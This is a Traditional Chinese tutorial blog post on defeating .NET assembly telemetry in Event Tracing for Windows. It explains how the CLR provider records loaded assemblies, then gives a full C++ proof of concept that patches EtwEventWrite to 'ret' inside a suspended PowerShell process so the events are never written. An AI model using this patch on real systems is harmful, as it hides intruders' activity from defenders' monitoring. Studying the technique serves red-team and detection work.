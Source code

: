 # 【Day 25】又繞！又繞！又繞 ETW！ - Bypass ETW

## 環境
* Windows 10 21H1
* Visual Studio 2019

## 前情提要
在[【Day 23】為美好的 Windows 獻上 ETW - Event Tracing for Windows](https://ithelp.ithome.com.tw/articles/10279093) 說過 ETW 對於籃隊是一個非常有用的機制，可以蒐集使用者在系統上做的種種事情。然而雖然 ETW 很強大，但是仍然可能會被繞過，這篇就要來介紹一個繞過方法。

## .NET Assemblies
在繞過 ETW 之前，首先要了解 .NET Assemblies 這個先備知識。

### Execute Assembly
在紅隊測試工具 [Cobalt Strike](https://www.cobaltstrike.com/) 有個功能，叫做 [bexecute_assembly](https://www.cobaltstrike.com/aggressor-script/functions.html#bexecute_assembly)，它會在 Process 中執行 .NET Assemblies。原理是透過 ICLRMetaHost、ICLRRuntimeInfo 和 ICLRRuntimeHost 達到將 CLR 載入的效果。其中 CLR 是 .NET Framework 的虛擬機器元件 (Virtual Machine Component)，用來管理執行中的 .NET 程序。

### 觀察
.NET Assemblies 是有辦法被偵測的，以下用 Process Explorer 做示範。
1. 開啟 Powershell
2. 開啟 Sysinternals 裡的 procexp64.exe
3. 在 powershell.exe 那一欄按右鍵選 Properties
4. 點選 .NET Assemblies

從觀察可以看到，在 Process Explorer 中顯示的 .NET Assemblies 就放著這個 Process 所使用的 .NET Assemblies 資源。
![](https://i.imgur.com/goObFem.png)

### 原理
偵測的原理其實就是利用 ETW 的 Provider「.NET Common Language Runtime」，GUID 為 `{E13C0D23-CCBC-4E12-931B-D9CC2EEE27E4}`，使用方法可以參考之前的 Logman 或是用 KrabsETW 寫 Consumer。
```
Provider                                 GUID
-------------------------------------------------------------------------------
.NET Common Language Runtime             {E13C0D23-CCBC-4E12-931B-D9CC2EEE27E4}

Value               Keyword              Description
-------------------------------------------------------------------------------
0x0000000000000001  GCKeyword            GC
0x0000000000000002  GCHandleKeyword      GCHandle
0x0000000000000004  FusionKeyword        Binder
0x0000000000000008  LoaderKeyword        Loader
0x0000000000000010  JitKeyword           Jit
0x0000000000000020  NGenKeyword          NGen
0x0000000000000040  StartEnumerationKeyword StartEnumeration
0x0000000000000080  EndEnumerationKeyword StopEnumeration
0x0000000000000400  SecurityKeyword      Security
0x0000000000000800  AppDomainResourceManagementKeyword AppDomainResourceManagement
0x0000000000001000  JitTracingKeyword    JitTracing
0x0000000000002000  InteropKeyword       Interop
0x0000000000004000  ContentionKeyword    Contention
0x0000000000008000  ExceptionKeyword     Exception
0x0000000000010000  ThreadingKeyword     Threading
0x0000000000020000  JittedMethodILToNativeMapKeyword JittedMethodILToNativeMap
0x0000000000040000  OverrideAndSuppressNGenEventsKeyword OverrideAndSuppressNGenEvents
0x0000000000080000  TypeKeyword          Type
0x0000000000100000  GCHeapDumpKeyword    GCHeapDump
0x0000000000200000  GCSampledObjectAllocationHighKeyword GCSampledObjectAllocationHigh
0x0000000000400000  GCHeapSurvivalAndMovementKeyword GCHeapSurvivalAndMovement
0x0000000000800000  GCHeapCollectKeyword GCHeapCollect
0x0000000001000000  GCHeapAndTypeNamesKeyword GCHeapAndTypeNames
0x0000000002000000  GCSampledObjectAllocationLowKeyword GCSampledObjectAllocationLow
0x0000000020000000  PerfTrackKeyword     PerfTrack
0x0000000040000000  StackKeyword         Stack
0x0000000080000000  ThreadTransferKeyword ThreadTransfer
0x0000000100000000  DebuggerKeyword      Debugger
0x0000000200000000  MonitoringKeyword    Monitoring

Value               Level                Description
-------------------------------------------------------------------------------
0x00                win:LogAlways        Log Always
0x02                win:Error            Error
0x04                win:Informational    Information
0x05                win:Verbose          Verbose
```

而觸發事件記錄的地方是 Usermode，並且是從 Powershell 本身這個 Process 呼叫 EtwEventWrite 記錄事件。

## 繞過偵測
### 原理
既然已經知道記錄事件的是 Process 本身，那就可以在 Process 建立時就把 EtwEventWrite 竄改，讓它沒辦法正常運作。

### 實作流程
1. 建立一個 Powershell Process，並取得 Process Handle
2. 從 ntdll.dll 中取得 EtwEventWrite 的位址
3. 把 EtwEventWrite 的位址的權限改成可讀、可寫、可執行(rwx)
4. 將 EtwEventWrite 的 Function 的第一個 byte 改成 0xc3，也就是組語的 `ret`
5. 把 EtwEventWrite 的權限改回，並且繼續執行 Process

### POC
程式是從 [idiotc4t 的部落格](https://idiotc4t.com/defense-evasion/memory-pacth-bypass-etw)取得，做了一些小修改和註解，完整的程式專案可以參考我的 GitHub [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/%E5%8F%88%E7%B9%9E%EF%BC%81%E5%8F%88%E7%B9%9E%EF%BC%81%E5%8F%88%E7%B9%9E%20ETW%EF%BC%81/PatchEtweventwrite)。
```cpp=
#include <Windows.h>
#include <Tlhelp32.h>
int main() {
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	// 1. 建立一個 Powershell Process，並取得 Process Handle
	CreateProcessA(NULL, (LPSTR)"powershell -noexit", NULL, NULL, NULL, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	// 2. 從 ntdll.dll 中取得 EtwEventWrite 的位址
	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	LPVOID pEtwEventWrite = GetProcAddress(hNtdll, "EtwEventWrite");

	// 3. 把 EtwEventWrite 的位址的權限改成可讀、可寫、可執行(rwx)
	DWORD oldProtect;
	VirtualProtectEx(pi.hProcess, (LPVOID)pEtwEventWrite, 1, PAGE_EXECUTE_READWRITE, &oldProtect);

	// 4. 將 EtwEventWrite 的 Function 的第一個 byte 改成 0xc3，也就是組語的 ret
	char patch = 0xc3;
	WriteProcessMemory(pi.hProcess, (LPVOID)pEtwEventWrite, &patch, sizeof(char), NULL);

	// 5. 把 EtwEventWrite 的權限改回，並且繼續執行 Process
	VirtualProtectEx(pi.hProcess, (LPVOID)pEtwEventWrite, 1, oldProtect, NULL);
	ResumeThread(pi.hThread);

	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	return 0;
}
```

### 實際測試
在執行 POC 後，會建立一個 Powershell Process，如同前面說的，目前的 EtwEventWrite 已經被改掉了，因此不會記錄 .NET Assemblies 的事件。

再用 Process Explorer 打開看一次 Powershell 的狀態，可以注意到 .NET Assemblies 這個欄位變空白了。
![](https://i.imgur.com/nxjwqKV.png)

## 參考資料
* [XPN: Hiding your .NET - ETW](https://blog.xpnsec.com/hiding-your-dotnet-etw/)
* [POC: execute assembly](https://gist.github.com/xpn/e95a62c6afcf06ede52568fcd8187cc2)
* [寫 extern 的 dll](https://stackoverflow.com/questions/24970503/why-rundll-gives-missing-entry)
* [基于内存补丁ETW的绕过](https://idiotc4t.com/defense-evasion/memory-pacth-bypass-etw)
* [TamperETW](https://github.com/outflanknl/TamperETW)
* [BYOL——一种新颖的红队技巧](https://zhuanlan.zhihu.com/p/38601278)
* [Cobalt Strike: In-memory .NET Assembly Execution](https://blog.cobaltstrike.com/2018/04/09/cobalt-strike-3-11-the-snake-that-eats-its-tail/)
